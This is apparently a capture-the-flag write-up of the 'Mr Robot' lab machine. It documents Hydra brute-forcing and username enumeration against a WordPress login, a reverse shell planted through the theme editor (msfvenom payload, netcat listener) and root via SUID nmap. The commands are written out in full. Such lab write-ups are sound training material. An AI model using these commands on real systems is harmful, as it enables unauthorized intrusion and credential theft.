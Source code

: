# Enumeration

We begin with an autorecon scan, which quickly identifies ports 80 and 443 as being open. We run the usual follow-up scan with nmap to verify this. 
 
![f44abe2189a06cde038722087593642a.png](/Mr%20Robot%20CTF/_resources/f44abe2189a06cde038722087593642a-1.png)

![617b4242634ecdea43934f95e3484621.png](/Mr%20Robot%20CTF/_resources/617b4242634ecdea43934f95e3484621-1.png)
 
Let's take a look at the output given by the autorecon scan. Examining the `robots.txt` file reveals some information.
 
![cd64d02e2fae9273b64a045a4d22dcec.png](/Mr%20Robot%20CTF/_resources/cd64d02e2fae9273b64a045a4d22dcec-1.png)
 
Navigating to `http://10.10.89.74/key-1-of-3.txt` gives us the first key. The `robots.txt` also points us a wordlist at `http://10.10.89.74/fsocity.dic`, which we download.

From the feroxbuster output generated by Autorecon, we see an interesting directory.
 
![1e0e3dc41916e231c246961ce4308792.png](/Mr%20Robot%20CTF/_resources/1e0e3dc41916e231c246961ce4308792-1.png)

![bfa45c96aca8dd0b74774d530687f310.png](/Mr%20Robot%20CTF/_resources/bfa45c96aca8dd0b74774d530687f310-1.png)
 
Getting the body of the POST request of the login form using BurpSuite, we can try Hydra to brute force the login.

```bash
hydra -l <username guess> -P <path to wordlist> 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<error message for unsuccessful login>" -V
```

In this case, we want to use the wordlist `fsocity.dic` we found earlier. But first we need a username. Note that if we type in some test credentials, we get an error message which tells us the username is invalid.
 
![7fe06c5fd2a9bd063149467517c2f6ee.png](/Mr%20Robot%20CTF/_resources/7fe06c5fd2a9bd063149467517c2f6ee-1.png)
 
We can make use of this to try and find a valid username from our dictionary.

```bash
hydra -L fsocity.dic -p test 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -v 
```
 
![1b6adf98c66f0597934f8339991c41d4.png](/Mr%20Robot%20CTF/_resources/1b6adf98c66f0597934f8339991c41d4-1.png)
 
Thus we obtain the username `Elliot` (which maybe you could have gussed, given the theme of the box). If we attempt to login using this username, this verifies that `Elliot` is indeed a valid username. This also gives us another error message we can use with Hydra.
 
![e3699d755773c51a71ebe00815b2501b.png](/Mr%20Robot%20CTF/_resources/e3699d755773c51a71ebe00815b2501b-1.png)
 
Now we can attempt to run Hydra. We can either wait a very long time for Hydra to find the correct password, or we can cleanup the wordlist we found first. Using ``sort fsocity.dic | tee sorted.txt`` will list the words alphabetically. Then, ``uniq sorted.txt | tee trimmedlist.txt`` will remove any duplicate instances. Using `wc -l <file name>`, we can verify that this substantially reduced the size of our wordlist.
 
![62478eaa7c5fdf79cbfe3f12320b8a65.png](/Mr%20Robot%20CTF/_resources/62478eaa7c5fdf79cbfe3f12320b8a65-1.png)
 
Now we run Hydra again with the trimmed wordlist to find our password. 

```bash
hydra -l Elliot -P trimmedlist.txt 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

The `-t` switch specifies the number of tasks to run in parallel. The default is 16; I upped it since the attack was taking a long time. After almost 40 minutes, Hydra found the correct password.
 
![8f3edd3b1f9112d5b5302d2cab935b26.png](/Mr%20Robot%20CTF/_resources/8f3edd3b1f9112d5b5302d2cab935b26-1.png)
 
Alternatively, [wpscan](https://github.com/wpscanteam/wpscan) can be leveraged here since we know the blog is running on WordPress. We can use `wpscan --url http://10.10.89.74/wp-login.php -U Elliot -P <path to password list>` in an attempt to brute force the login. This was taking too long for me, so I just waited for Hydra to finish.

<br>

# Exploitation

Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.
 
![b012d5df19bf44bae95653fc177520dc.png](/Mr%20Robot%20CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr%20Robot%20CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.
 
![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr%20Robot%20CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)
 
<br>

# Post-exploitation

Digging around, we eventually find an interesting file. Unfortunately, we don't have access to it.
 
![1844ee5fae87970bb5e3a756ee69b538.png](/Mr%20Robot%20CTF/_resources/1844ee5fae87970bb5e3a756ee69b538-1.png)
 
We do, however, have access to a hash file. Cracking thehash reveals the password `abcdefghijklmnopqrstuvwxyz`.
 
![6cfb407e22dcf91f5146869db5f8796c.png](/Mr%20Robot%20CTF/_resources/6cfb407e22dcf91f5146869db5f8796c-1.png)
 
But, if we try to switch to the robot user with `su robot`, we encounter an error.
 
![6dbce00075572adfacbb6e05e9a13ec9.png](/Mr%20Robot%20CTF/_resources/6dbce00075572adfacbb6e05e9a13ec9-1.png)
 
So, let's upgrade our shell using `python -c 'import pty; pty.spawn("/bin/bash")'
`. Doing this allows us to switch users using the password we found above. We can then `cat` the second key.
 
![9048b29fef3190be8463b1662fadc3da.png](/Mr%20Robot%20CTF/_resources/9048b29fef3190be8463b1662fadc3da-1.png)
 
Now let's try and root the machine. We can esscalating privileges by looking for SUID files with `find / -perm -u=s -type f 2>/dev/null
`, we find a few.
 
![3ef1260af740e2b526300c3198f7ec23.png](/Mr%20Robot%20CTF/_resources/3ef1260af740e2b526300c3198f7ec23-1.png)
 
Nmap sticks out, so we check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and we see if nmap has the SUID bit set, we can use it to get a root shell. We run nmap in interactive mode with ``nmap --interactive`` and we spawn a root shell with ``!sh``.
 
![ec010bd95a1b1fc80a0a664f575cafaa.png](/Mr%20Robot%20CTF/_resources/ec010bd95a1b1fc80a0a664f575cafaa-1.png)
 
Navigating to `/root`, we find the final flag.
 
![a419f7d063b1538bfc082a6ceea43a98.png](/Mr%20Robot%20CTF/_resources/a419f7d063b1538bfc082a6ceea43a98-1.png)